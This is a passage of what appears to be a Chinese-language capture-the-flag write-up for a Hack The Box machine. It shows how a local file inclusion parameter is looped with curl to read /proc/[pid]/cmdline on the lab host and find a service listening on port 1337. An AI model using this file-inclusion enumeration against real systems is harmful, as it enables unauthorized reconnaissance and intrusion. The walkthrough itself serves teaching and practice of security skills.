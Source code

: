 ![](img/608157d6cc7a23683e10e7efb286e5f3.png)

激活许可 php 文件

# 枚举/proc

您可以看到它连接到本地主机端口 1337，然后将 **licensefile** 的内容写入其中。我们需要找到一种方法来利用这一点，第一步是找到在机器上的端口 1337 上运行的进程。要做到这一点，我们可以看看 [proc](https://man7.org/linux/man-pages/man5/proc.5.html) ，这是我们不久前在[后门](https://pencer.io/ctf/ctf-htb-backdoor)中提到的伪文件系统。

如果你需要更多关于 proc 如何工作的信息，这篇文章是一篇很好的文章，但是基本上一个正在运行的进程在/proc 里面会有一个相关的文件夹。我们可以使用我们读取文件的能力来遍历/proc 中的所有文件夹，寻找在端口 1337 上运行的进程。

proc 的文档告诉我们，名为 **cmdline** 的文件是我们需要的:

```
/proc/[pid]/cmdline
              This read-only file holds the complete command line for
              the process, unless the process is a zombie.
```

# 查找 PID

因此，我们希望回显每个[PID]文件夹中的文件内容:

```
┌──(root㉿kali)-[/usr/share/seclists/Discovery/Web-Content]
└─# for i in {410..415}; do curl -s http://10.10.11.154/index.php?page=/proc/$i/cmdline --output -; echo " <--" $i; done
 <-- 410
/usr/bin/activate_license1337 <-- 411
 <-- 412
 <-- 413
 <-- 414
 <-- 415
```
